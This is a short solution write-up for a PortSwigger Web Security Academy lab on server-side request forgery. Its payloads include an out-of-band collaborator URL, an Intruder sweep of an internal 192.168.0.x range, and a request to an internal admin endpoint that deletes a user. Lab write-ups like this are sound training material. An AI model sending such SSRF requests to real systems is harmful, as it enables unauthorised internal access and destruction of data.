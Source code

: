 # [Lab: Basic SSRF against another back-end system](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system)

## Lab

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, use the stock check functionality to scan the internal `192.168.0.X` range for an admin interface on port 8080, then use it to delete the user `carlos`.

## Scan

- Burpsuite scanner: detected `Out-of-band resource load (HTTP)`
  - body: `stockApi=http://knbwyjlwtx7jmf2crvupaw6roiuci26vunhd52.oastify.com/product/stock/check?productId=2&storeId=1`

## Exploit

1. burp's intercept:

    ```http
    POST /product/stock HTTP/1.1
    Host: id.web-security-academy.net

    stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D1  
    ```

2. burp's intruder:

    - positions:

        ```http
        POST /product/stock HTTP/1.1
        Host: id.web-security-academy.net
        ...

        stockApi=http://192.168.0.§§:8080/admin
        ```

    - payloads: 0->255
    - result: with the payload 116, the response status code is 200
3. solve lab

    ```http
    POST /product/stock HTTP/1.1
    Host: id.web-security-academy.net
    ...

    stockApi=http://192.168.0.116:8080/admin/delete?username=carlos
    ```
